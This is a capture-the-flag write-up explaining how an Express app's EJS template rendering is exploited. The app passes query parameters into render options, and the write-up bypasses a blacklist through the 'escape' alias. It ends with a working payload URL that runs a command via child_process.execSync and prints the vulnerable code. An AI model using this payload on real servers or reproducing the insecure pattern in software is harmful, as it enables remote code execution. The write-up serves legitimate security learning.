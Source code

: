 

`Author: eliyah`

`Challenge: Express Javascript Security`

# Overview

We are given a url to the site and the site code which you can find in the challenge directory.

The website has 2 endpoints. Root (`/`) endpoint and the `/greet` endpoint. On the first one is a form that just sends you to the `/greet` endpoint with some query parameters set (font, fontSize, name). With the given parameters second endpoint just returns page with hello message styled with selected font and size.

`http://ejs.web.seetf.sg:1337/`:

![Screenshot](ss1.png)

=> `http://ejs.web.seetf.sg:1337/greet?name=someName&font=Arial&fontSize=20`:

![Screenshot](ss2.png)

Also, in the docker container there is `/readflag` executable that outputs the flag to stdout. 

# Code examination and solution

Because of this section of code in the main.js the function that is used for rendering ejs templates is [renderFile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441).
```js
// main.js

app.set('view engine', 'ejs');
```


Array of filters that mustn't be found in the request query:

```js
// main.js

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]
```

The vulnerable function:

```js
// main.js

app.get('/greet', (req, res) => {
    
	const data = JSON.stringify(req.query);
    	if (BLACKLIST.find((item) => data.includes(item))) {
        	return res.status(400).send('Can you not?');
   	}
	
    // Vulnerability is here
	// because the req.query object is passed 
	// directly to the render function.
    // This is not good practice because 
    // an adversary can make use of the 
    // rendering options.
    return res.render('greet', { 
    	...JSON.parse(data),
    	cache: false
    });
});
```
- *Rendering options can also be passed through the data argument of the renderFile function through the settings object. [RENDERING OPTIONS](https://github.com/mde/ejs/blob/main/docs/jsdoc/options.jsdoc)*

Parts of [renderFile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441):
```js
// github repo: mde/ejs
// lib/ejs.js

exports.renderFile = function(){
	//... 
	if (data.settings) {
		//...
		viewOpts = data.settings['view options'];
        	if (viewOpts) {
          		utils.shallowCopy(opts, viewOpts);
        	}
	}
	//...
	
}
```
- *When there is only one argument(data) specified in the render call the function copies rendering options from the `data`'s `settings[view options]` field. With this in mind I could pass url like `http://ejs.web.seetf.sg:1337?settings[view options][escape]=...` and it will set the option `escape` to the passed value.*

Because of the BLACKLIST filters some template render options cannot be used. Fortunately in the BLACKLIST there is only `escapeFunction` option and not it's alias `escape`. What I can do with this?

I took another look at the ejs source and i found something interesting.

- *When rendering template, ejs is dynamically creating function that will assemble the template with the data passed to it. The function is compiled from the string which is dynamically created based on the template. All of this is happening in the [compile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441) function of the `Template` class that eventually gets called.*

Parts of [Template.compile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441):
```js
// github repo: mde/ejs
// lib/ejs.js

Template.protorype={
    //...
    compile = function() {
	//...
	var escapeFn = opts.escapeFunction;
	//...
	if (opts.client) {
		// src is the string containing the source code of the function that assembles the template
     		src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
    	}
}
```

Looking at this piece of code it looks like that I can pass my own function to the escapeFn if the opts.client is true. 

- *The `escapeFn` is called for the every variable name found between delimiters `<%=` and `%>`. In short, every appearance of the `<%= var_name %>` is replaced with the result value of `escapeFn(var_name)`.
You can find it in [this function](https://github.com/mde/ejs/blob/main/lib/ejs.js#L815).*

So I tried with the payload:

```
http://ejs.web.seetf.sg:1337/greet?settings[view%20options][escape]=function(){return%20process.mainModule.require(%27child_process%27).execSync(%27/readflag%27)}&font=aaa&fontSize=aaa&settings[view%20options][client]=true&name=aaa
```

And it was successful :D

![Screenshot](ss3.png)




